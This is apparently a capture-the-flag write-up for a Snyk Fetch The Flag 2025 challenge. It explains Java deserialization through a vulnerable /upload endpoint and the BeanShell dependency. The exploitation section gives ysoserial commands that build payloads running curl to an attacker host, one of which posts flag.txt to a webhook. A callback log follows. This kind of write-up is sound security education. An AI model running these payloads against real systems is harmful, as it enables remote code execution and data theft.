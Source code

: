 ```yaml
---
layout: post
title: "SNYK Fetch The Flag 2025 - Idiotic"
date: 2025-10-07
---
```

<div markdown=1 class="blurb" >

# Summary
Insecure Java Deserialization to RCE

## Enumeration
Given a Java web challenge, the first thing to do is to analyze the dockerfile configuration. As we can see here on entry point the enableUnsafeSerialization is being set into true.
```
FROM maven:3.8.8-eclipse-temurin-17 AS build

WORKDIR /app

COPY ./app/pom.xml ./
RUN mvn dependency:go-offline

COPY ./app/src ./src
RUN mvn clean package -DskipTests
#ENTRYPOINT [ "/bin/sh" ]

FROM eclipse-temurin:17-jdk

WORKDIR /app

COPY --from=build /app/target/iot-0.0.1-SNAPSHOT.jar ./iot.jar
COPY flag.txt ./flag.txt

EXPOSE 8080

ENTRYPOINT ["java", "-Dorg.apache.commons.collections.enableUnsafeSerialization=true", "-jar", "iot.jar"]
```
On DeviceController.java, we can see the `/upload` endpoint will receive a base64 data that will be deserialized.
```java
DeviceController.java

@PostMapping("/upload")
    public ResponseEntity<?> uploadDevice(@RequestBody Map<String, String> payload) {
        try {
            String base64Data = payload.get("file");
            if (base64Data == null || base64Data.isEmpty()) {
                System.out.println("ERROR: Upload request missing 'file' field.");
                throw new IllegalArgumentException("Missing 'file' in request payload");
            }

            System.out.println("INFO: Starting deserialization process.");

            byte[] binaryData = Base64.getDecoder().decode(base64Data);
            System.out.println("DEBUG: Base64 decoded data length: " + binaryData.length);

            Device device = deserializeDevice(binaryData);

            System.out.println("DEBUG: Deserialized device object - " + device);

            deviceRepository.save(device);

            System.out.println(
                    "INFO: Device '" + device.getName() + "' with ID '" + device.getId() + "' successfully added.");
            return ResponseEntity.ok(Map.of("message", "Device added successfully"));
        } catch (Exception e) {
            System.out.println("ERROR: Failed to deserialize device - " + e.getMessage());
            e.printStackTrace();
            return ResponseEntity.status(HttpStatus.BAD_REQUEST)
                    .body(Map.of("error", "Failed to deserialize device: " + e.getMessage()));
        }
    }
```

This is the deserializeDevice function that will deserialize our uploaded device.
```java

  private Device deserializeDevice(byte[] data) throws Exception {
        try (ByteArrayInputStream bis = new ByteArrayInputStream(data);
                ObjectInputStream ois = new ObjectInputStream(bis)) {

            System.out.println("INFO: Starting vulnerable deserialization process.");
            Object deserializedObject = ois.readObject();

            if (deserializedObject instanceof Device) {
                Device device = (Device) deserializedObject;
                System.out.println("DEBUG: Successfully deserialized Device object.");
                System.out.println("DEBUG: Device details - ID: " + device.getId() +
                        ", Name: " + device.getName() +
                        ", Type: " + device.getType() +
                        ", Status: " + device.isStatus());
                return device;
            } else {
                System.out.println("ERROR: Deserialized object is not a Device.");
                throw new IllegalArgumentException("Invalid object type: " + deserializedObject.getClass().getName());
            }
        } catch (Exception e) {
            System.out.println("ERROR: Deserialization failed - " + e.getMessage());
            e.printStackTrace();
            throw e;
        }
    }
```
But, we don't know yet what is the dependencies that will perform the deserialization process. For that, we can refer to the `pom.xml` file and we got the dependencies which is BeanShell.
```xml
[snipped].....
    <dependency>
            <groupId>com.h2database</groupId>
            <artifactId>h2</artifactId>
            <scope>runtime</scope>
        </dependency>
        <dependency>
            <groupId>org.projectlombok</groupId>
            <artifactId>lombok</artifactId>
            <version>1.18.28</version>
            <scope>provided</scope>
        </dependency>
        <dependency>
            <groupId>org.beanshell</groupId>
            <artifactId>bsh</artifactId>
            <version>2.0b5</version>
        </dependency>
    </dependencies>
```

## Exploitation
By using ysoserial.jar [github](https://github.com/frohoff/ysoserial) we could generate malicious BeanShell objects for RCE.
First thing, we try to perform a curl to our attack box.
```
/usr/lib/jvm/java-1.11.0-openjdk-amd64/bin/java -jar ysoserial-all.jar BeanShell1 'curl http://192.168.3.1' > upload.b64
```

After generating the payload, we can upload the file to the dashboard.
![image](https://github.com/user-attachments/assets/5b49f95d-b9f3-4511-92cf-e03241e9b2c3)

And the payload is executed successfully!
![image](https://github.com/user-attachments/assets/008a589b-be19-4d78-b570-9af4625cdc7c)

```
⚡ root@kali~ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.3.2 - - [20/Mar/2025 19:40:10] "GET / HTTP/1.1" 200 -
```

Time to change our payload to read the flag. *kudos to abejads for this flag reading method ☕
```
/usr/lib/jvm/java-1.11.0-openjdk-amd64/bin/java -jar ysoserial-all.jar BeanShell1 'curl -X POST -F 'file=@flag.txt' your_webhook_url_here' > upload.b64
```

![image](https://github.com/user-attachments/assets/16d2f06f-b36c-4af2-ab15-c48457ebe1b0)
